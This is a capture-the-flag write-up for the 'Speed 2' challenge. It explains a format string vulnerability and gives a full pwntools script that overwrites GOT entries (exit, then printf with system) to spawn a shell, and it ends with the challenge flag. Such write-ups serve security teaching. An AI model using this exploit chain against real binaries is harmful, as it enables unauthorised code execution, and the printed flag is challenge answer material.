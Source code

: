 # Speed 2

## Challenge

We're given a binary with partial RELRO and no PIE.

### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## Solution

There is a format string vulnerability in the binary, as it calls `printf` directly on user input.

We are only given one `printf` call before the program exits.
We can extend this by overwriting the GOT entry of `exit` to return to the vulnerable code.
This gives us unlimited uses of the vulnerability.

We can then leak the libc address and overwrite the GOT entry of `printf` with `system`.
This overwrite has to be done in a single pass, as we will not have access to `printf` afterwards.

Once the GOT entry of `printf` is overwritten, we can send `"/bin/sh"` as our input.
This will cause the program to execute `system("/bin/sh")` and spawn a shell.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host speed-02.hfsc.tf --port 21000 speed2
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('speed2')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'speed-02.hfsc.tf'
port = int(args.PORT or 21000)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak *0x{exe.entry:x}
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     i386-32-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x8048000)

libc = ELF('libc.so.6')

io = start()

io.sendlineafter(b"f5b: ", fmtstr_payload(7, {exe.got['exit']: 0x0804928f}))

fmt = flat({
    0x0: b"%15$s",
    0x20: exe.got['printf'],
    })
io.sendlineafter(b"f5b: ", fmt)

libc.address = unpack(io.recv(4)) - libc.sym['printf']

print(hex(libc.address))

write1 = libc.sym['system'] % 0x10000
write2 = libc.sym['system'] // 0x10000

fmt = flat({
    0x0: "%{}c%15$hn%{}c%16$hhn".format(write1, (write2 - write1) % 0x100).encode(),
    0x20: exe.got['printf'],
    0x24: exe.got['printf'] + 2,
    })

io.sendlineafter(b"f5b: ", fmt)
io.interactive()
```

## Flag

```
midnight{21621f6151007a4bdf38846bba844904}
```
